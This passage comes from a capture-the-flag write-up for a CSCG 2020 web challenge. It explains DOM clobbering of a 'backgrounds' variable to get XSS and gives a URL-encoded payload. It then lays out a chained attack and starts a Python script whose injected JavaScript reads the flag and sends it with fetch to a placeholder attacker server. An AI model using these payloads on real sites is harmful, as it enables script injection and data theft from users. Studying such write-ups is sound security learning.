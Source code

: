 ```html
        'tree': [
            '<img class="bg-img" src="/static/img/tree.png"></img>'
        ]
    }
</script>

<div class="jumbotron">
    <h2 class="admin-h">Stage2 </h2>
    <p class="lead"></p>
    <hr class="my-4">
        <p></p>
    <p class="lead">
        <div class="text-center">
            <b>🎅🏻  Have fun! 🎅🏻</b>
            <!--  
                What is CORS? Baby don't hurt me, don't hurt me - no more!
            -->
            <br>
                                        <b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>

        <div>
    </p>
</div>
```
If we now try to access the `background` in the JS Console...

![](https://raw.githubusercontent.com/Nayos1337/cscg2020/master/web/xmas_shopping_site/console_clobbered_backgrounds.png)

... we sucessfully clobbered the variable. We now could no change `$("#bg").val()` to `innerText` this would mean, that `backgrounds[$("#bg").val()]` then is the `innerText` of our `span` tag (`test` in this case)

That means, that the payload:
```
bg=innerText"><span id="backgrounds">%26lt%3Bscript%26gt%3Balert%281%29%26lt%3B%2Fscript%26gt%3B</span> <!--
```
actually executes `alert(1)` because the `backgrounds` html tag has an innerText `<script>alert(1)</script>` and `$("#bg").val()` resolves to `innerText`

## Putting it together
The Plan:
1. Use the XSS on `Stage1` to make the POST request to `Stage2` (without CORS)
1. Redirect to `Stage2` where the payload in the post-request gets executed (this can make a non-cors request to a server of mine with the flag)
1. Profit!

To craft the initial URL I made a Python script:
```python
import urllib.parse
import html

urlencode = urllib.parse.quote_plus  # just a helper

# this is the js we want to get executed on stage2
js_stage2 = "flag=document.getElementsByTagName('b')[0].innerText; fetch('//[your server here]/flag?f='+flag,{'mode':'no-cors'})"

tag_stage2 = f"<script>{js_stage2}</script>"

payload_stage2 = f"<span id=backgrounds>{html.escape(tag_stage2)}</span> <!--"
```